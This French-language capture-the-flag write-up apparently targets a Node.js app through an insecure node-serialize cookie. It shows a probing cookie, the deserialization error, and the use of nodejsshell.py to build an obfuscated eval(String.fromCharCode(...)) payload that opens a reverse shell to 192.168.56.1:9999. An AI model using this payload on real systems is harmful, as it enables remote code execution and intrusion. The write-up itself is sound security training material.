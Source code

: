 Ne connaissant pas trop comment tout cela fonctionne, je regarde d'abord si placer une opération Javascript dans le cookie permet d'avoir une interprétation quelconque :

```json
{"username":"ab"+"cd"}
```

Je n'obtiens pas un message *Welcome, abcd* mais une erreur de désérialisation :

```
SyntaxError: Unexpected token + in JSON at position 16
    at JSON.parse (<anonymous>)
    at Object.exports.unserialize (/home/web/shuriken-node/node_modules/node-serialize/lib/serialize.js:62:16)
    at /home/web/shuriken-node/server.js:16:24
    at Layer.handle [as handle_request] (/home/web/shuriken-node/node_modules/express/lib/router/layer.js:95:5)
    at next (/home/web/shuriken-node/node_modules/express/lib/router/route.js:137:13)
    at Route.dispatch (/home/web/shuriken-node/node_modules/express/lib/router/route.js:112:3)
    at Layer.handle [as handle_request] (/home/web/shuriken-node/node_modules/express/lib/router/layer.js:95:5)
    at /home/web/shuriken-node/node_modules/express/lib/router/index.js:281:22
    at Function.process_params (/home/web/shuriken-node/node_modules/express/lib/router/index.js:335:12)
    at next (/home/web/shuriken-node/node_modules/express/lib/router/index.js:275:10)
```

Je suis donc sur la bonne voie. Une recherche m'a mené sur cet article : [Node.js Deserialization Attack – Detailed Tutorial 2018 - Yeah Hub](https://www.yeahhub.com/nodejs-deserialization-attack-detailed-tutorial-2018/).

Il convient d'abord de générer un payload javascript qui déclenchera un reverse-shell. Le script [nodejsshell.py](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py) se base sur un template pour cela.

```shellsession
$ python2 nodejsshell.py 192.168.56.1 9999
[+] LHOST = 192.168.56.1
[+] LPORT = 9999
[+] Encoding
eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,57,50,46,49,54,56,46,53,54,46,49,34,59,10,80,79,82,84,61,34,57,57,57,57,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))
```
